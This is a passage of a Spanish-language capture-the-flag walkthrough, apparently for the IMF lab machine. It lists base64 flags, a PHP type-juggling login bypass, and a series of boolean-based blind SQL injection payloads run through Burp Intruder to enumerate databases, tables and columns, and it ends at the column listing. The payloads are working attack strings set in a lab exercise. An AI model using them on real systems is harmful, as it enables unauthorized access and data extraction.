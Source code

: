 ```FLAG
 flag1{YWxsdGhlZmlsZXM=) --> allthefiles
```

- Mirando  source code encuentro esta cadena
```FLAG
ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==
```

- Nos lleva a un login en l que pruebo **Type Juggling** sin hash mágico que empieza por 0
```burp
user=rmichaels&pass[]=ñañañaña
```

```FLAG
flag3{Y29udGludWVUT2Ntcw==}
```
- Iba por este SQLI, cuando es correcto pone under construction
```burp
http://192.168.1.148/imfadministrator/cms.php?pagename=upload' union select substring(database(),1,1)='a-- -
=disavowlist'or+length(database())>%3d'5--
```
- Sacamos la BD admin
```Burp
savowlist'+or+substring(database(),§1§,1)%3d'§a§-- -
```
- Meto a intruder la siguiente peticion y resuelve
```burp
home'or+substring((select+group_concat(schema_name)+from+information_schema.schemata),§1§,1)='§a§ 
```

- BD extraídas
>information_schema
admin
mysql
performance
schema
sys

- Saco las tablas
```burp
me'+or+substring((select+group_concat(table_name)+from+information_schema.tables+where+table_schema="admin"),§1§,1)='§i§
```
- Tablas extraídas
>pages

- Saco columnas 
```
me'+or+substring((select+group_concat(column_name)+from+information_schema.columns+where+table_name="pages"),20,1)='a 
```

>id
>pagename
>pagedata
